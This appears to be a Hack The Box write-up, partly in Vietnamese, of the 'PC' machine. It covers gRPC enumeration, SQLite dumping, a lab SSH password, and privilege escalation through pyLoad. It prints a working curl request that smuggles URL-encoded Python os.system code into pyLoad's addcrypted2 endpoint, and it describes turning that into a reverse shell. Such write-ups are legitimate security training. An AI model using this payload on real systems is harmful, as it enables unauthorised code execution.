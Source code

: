 ```yaml
---
title: PC Hack The Box 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Hack The Box, PC]
tags: [PC HTB] 

image:
  path: /assets/img/htb/pc/logo.jpg
  # alt: PC HTB
---
```


- Recon pc machine with nmap
![](/assets/img/htb/pc/nmap.png)

- Search service for port 50051 -> gRPC service
+ Install grpcurl and add grpcurl to env
![](/assets/img/htb/pc/insstall_grpcurl.png)
![](/assets/img/htb/pc/addevn.png)

- Thực hiện tạo người dùng và thu thập thêm thông tin (trường hợp lấy thông tin bằng token bị fail, thực hiện login lại để kiểm tra user đã bị xóa chưa, nếu user đã bị xóa tạo lại tài khoản mới)
![](/assets/img/htb/pc/account.png)

- Thực hiện truy vấn dữ liệu sqlite
![](/assets/img/htb/pc/query1.png) 
![](/assets/img/htb/pc/query2.png) 
![](/assets/img/htb/pc/query3.png) 

#### Hoặc cũng có thể sử dụng grpcui để có giao diện 
![](/assets/img/htb/pc/ui.png) 
![](/assets/img/htb/pc/install_ui.png) 
- Start grpcui và tiếp tục khai thác
```shell
grpcui -plaintext IP_machine:50051
```
![](/assets/img/htb/pc/start1.png)
![](/assets/img/htb/pc/start2.png)

-Register, login and exploit with grpcui
![](/assets/img/htb/pc/1.png)
![](/assets/img/htb/pc/2.png)
![](/assets/img/htb/pc/3.png)
- Sử dụng burpsuite để dễ xem các thông tin request và reponse
![](/assets/img/htb/pc/4.png)
![](/assets/img/htb/pc/5.png)
![](/assets/img/htb/pc/6.png)

-> Sau khi recon và dump data, ta có được thông tin account sau/HereIsYourPassWord1431 

Sử dụng thông tin thu thập được thực hiện ssh vào hệ thống
![](/assets/img/htb/pc/user.png)

#### Tìm cách lên root
- Download và chạy linpeas
![](/assets/img/htb/pc/linpeas.png)
![](/assets/img/htb/pc/service.png)
- Với các port đang mở thực hiện ssh forwarding port để truy cập trên máy local
![](/assets/img/htb/pc/ssh_forward.png)
![](/assets/img/htb/pc/web_root.png)
- Thực hiện tìm kiếm exploit pyload (https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
![](/assets/img/htb/pc/search.png)
- Thực hiện thay đổi payload trong package để revershell
```shell
curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```
![](/assets/img/htb/pc/burp.png)
- Mở port lắng nghe trước khi chạy payload revershell 
![](/assets/img/htb/pc/nc.png)








